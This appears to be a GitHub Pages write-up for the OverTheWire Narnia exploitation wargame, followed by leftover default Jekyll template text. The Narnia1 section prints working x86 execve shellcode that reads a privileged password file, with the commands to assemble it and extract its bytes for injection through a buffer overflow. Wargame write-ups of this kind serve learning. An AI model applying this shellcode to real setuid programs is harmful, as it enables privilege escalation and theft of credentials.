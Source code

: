 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:

`
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
`
Now, we want to compile our code and link it, thus:
`nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
`
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and wallah!


- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
